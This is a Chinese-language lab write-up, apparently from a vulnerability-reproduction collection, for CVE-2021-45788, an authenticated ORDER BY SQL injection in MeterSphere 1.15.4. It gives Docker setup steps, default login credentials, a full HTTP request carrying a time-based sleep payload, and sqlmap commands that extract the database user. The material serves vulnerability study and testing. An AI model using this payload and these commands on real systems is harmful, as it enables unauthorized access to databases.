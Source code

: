# MeterSphere v1.15.4 认证用户SQL注入漏洞 CVE-2021-45788

## 漏洞描述

MeterSphere是基于GPLv3协议的一站式的开源持续测试平台。在其1.15.4版本及以前，testcase相关API存在一处基于Order by的SQL注入漏洞。

参考链接：

- [https://github.com/metersphere/metersphere/issues/8651](https://github.com/metersphere/metersphere/issues/8651)

## 环境搭建

Vulhub执行如下命令启动一个MeterSphere 1.15.4服务器：

```
docker compose up -d
```

MeterSphere初始化成功后，访问`http://your-vps-ip:8081`即可跳转到默认登录页面。

![](images/MeterSphere%20v1.15.4%20认证用户SQL注入漏洞%20CVE-2021-45788/image-20240226112236979.png)

## 漏洞复现

使用账号`admin`和密码`metersphere`来登录用户界面。在`http://your-vps-ip:8081/#/track/case/all`创建一个新的测试用例：

![](images/MeterSphere%20v1.15.4%20认证用户SQL注入漏洞%20CVE-2021-45788/image-20240226112412195.png)

然后，发送如下数据包测试 SQL 注入漏洞（替换 csrf token 和 session id）：

```
POST /test/case/list/1/10 HTTP/1.1
Host: your-vps-ip:8081
Content-Length: 3142
Accept: application/json, text/plain, */*
CSRF-TOKEN: [YOUR_CSRF_TOKEN]
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Content-Type: application/json
Accept-Encoding: gzip, deflate, br
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8,en-US;q=0.7
Cookie: MS_SESSION_ID=[YOUR_SESSION_ID]
Connection: close

{"orders":[{"name":"name","type":",if(1=1,sleep(5),0)"}],"components":[{"key":"name","name":"MsTableSearchInput","label":"commons.name","operator":{"value":"like","options":[{"label":"commons.adv_search.operators.like","value":"like"},{"label":"commons.adv_search.operators.not_like","value":"not like"}]}},{"key":"tags","name":"MsTableSearchInput","label":"commons.tag","operator":{"value":"like","options":[{"label":"commons.adv_search.operators.like","value":"like"},{"label":"commons.adv_search.operators.not_like","value":"not like"}]}},{"key":"module","name":"MsTableSearchInput","label":"test_track.case.module","operator":{"value":"like","options":[{"label":"commons.adv_search.operators.like","value":"like"},{"label":"commons.adv_search.operators.not_like","value":"not like"}]}},{"key":"priority","name":"MsTableSearchSelect","label":"test_track.case.priority","operator":{"options":[{"label":"commons.adv_search.operators.in","value":"in"},{"label":"commons.adv_search.operators.not_in","value":"not in"}]},"options":[{"label":"P0","value":"P0"},{"label":"P1","value":"P1"},{"label":"P2","value":"P2"},{"label":"P3","value":"P3"}],"props":{"multiple":true}},{"key":"createTime","name":"MsTableSearchDateTimePicker","label":"commons.create_time","operator":{"options":[{"label":"commons.adv_search.operators.between","value":"between"},{"label":"commons.adv_search.operators.gt","value":"gt"},{"label":"commons.adv_search.operators.ge","value":"ge"},{"label":"commons.adv_search.operators.lt","value":"lt"},{"label":"commons.adv_search.operators.le","value":"le"},{"label":"commons.adv_search.operators.equals","value":"eq"}]}},{"key":"updateTime","name":"MsTableSearchDateTimePicker","label":"commons.update_time","operator":{"options":[{"label":"commons.adv_search.operators.between","value":"between"},{"label":"commons.adv_search.operators.gt","value":"gt"},{"label":"commons.adv_search.operators.ge","value":"ge"},{"label":"commons.adv_search.operators.lt","value":"lt"},{"label":"commons.adv_search.operators.le","value":"le"},{"label":"commons.adv_search.operators.equals","value":"eq"}]}},{"key":"creator","name":"MsTableSearchSelect","label":"api_test.creator","operator":{"options":[{"label":"commons.adv_search.operators.in","value":"in"},{"label":"commons.adv_search.operators.not_in","value":"not in"},{"label":"commons.adv_search.operators.current_user","value":"current user"}]},"options":{"url":"/user/list","labelKey":"name","valueKey":"id"},"props":{"multiple":true}},{"key":"reviewStatus","name":"MsTableSearchSelect","label":"test_track.review_view.execute_result","operator":{"options":[{"label":"commons.adv_search.operators.in","value":"in"},{"label":"commons.adv_search.operators.not_in","value":"not in"}]},"options":[{"label":"test_track.review.prepare","value":"Prepare"},{"label":"test_track.review.pass","value":"Pass"},{"label":"test_track.review.un_pass","value":"UnPass"}],"props":{"multiple":true}}],"filters":{"reviewStatus":["Prepare","Pass","UnPass"]},"planId":"","nodeIds":[],"selectAll":false,"unSelectIds":[],"selectThisWeedData":false,"selectThisWeedRelevanceData":false,"caseCoverage":null}
```

sleep(5) 成功执行：

![](images/MeterSphere%20v1.15.4%20认证用户SQL注入漏洞%20CVE-2021-45788/image-20240226113439673.png)

保存请求包为req.txt，使用SQLMap来获取数据库用户信息：

```
python sqlmap.py -r req.txt --dbms mysql --technique T --prefix , --level 3
python sqlmap.py -r req.txt --dbms mysql --technique T --prefix , --level 3 --current-user
```

![](images/MeterSphere%20v1.15.4%20认证用户SQL注入漏洞%20CVE-2021-45788/image-20240226140921107.png)
